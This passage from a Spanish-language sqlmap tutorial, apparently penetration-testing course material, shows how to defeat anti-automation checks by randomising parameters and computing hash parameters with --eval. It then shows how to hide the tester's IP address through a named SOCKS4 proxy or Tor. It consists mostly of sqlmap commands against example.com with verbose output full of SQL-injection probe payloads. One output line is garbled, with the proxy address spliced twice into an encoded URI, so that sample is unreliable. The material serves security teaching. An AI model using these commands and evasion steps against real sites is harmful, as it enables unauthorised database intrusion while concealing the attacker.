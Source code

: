 ```shell-session
$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

### Calculated Parameter Bypass

Otro mecanismo similar es aquel en el que una aplicación web espera que se calcule un valor de parámetro adecuado basándose en otros valores de parámetros. En la mayoría de los casos, un valor de parámetro debe contener el resumen del mensaje (por ejemplo, h=MD5(id)) de otro. Para evitarlo, se debe utilizar la opción --eval, con la que se evalúa un código Python válido justo antes de enviar la solicitud al destino.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

### IP Address Concealing

En caso de que queramos ocultar nuestra dirección IP, o si una determinada aplicación web tiene un mecanismo de protección que incluye nuestra dirección IP actual en una lista negra, podemos intentar utilizar un proxy o la red de anonimato Tor. Se puede configurar un proxy con la opción --proxy (por ejemplo, --proxy=«socks4://177.39.187.70:33283»), donde debemos añadir un proxy que funcione.

Además, si tenemos una lista de proxies, podemos proporcionársela a SQLMap con la opción --proxy-file. 
De esta manera, SQLMap recorrerá la lista secuencialmente y, en caso de que surja algún problema (por ejemplo, la inclusión de la dirección IP en una lista negra), simplemente pasará de la actual a la siguiente de la lista. La otra opción es utilizar la red Tor para proporcionar una anonimización fácil de usar, en la que nuestra IP puede aparecer en cualquier lugar de una gran lista de nodos de salida de Tor. Cuando se instala correctamente en la máquina local, debería haber un servicio proxy SOCKS4 en el puerto local 9050 o 9150. Al utilizar el conmutador --tor, SQLMap intentará automáticamente encontrar el puerto local y lo utilizará adecuadamente.

Si queremos asegurarnos de que Tor se utiliza correctamente, para evitar comportamientos no deseados, podemos utilizar el conmutador --check-tor. En tales casos, SQLMap se conectará a https://check.torproject.org/ y comprobará la respuesta para ver si el resultado es el esperado (es decir, si aparece «Congratulations» en el interior).
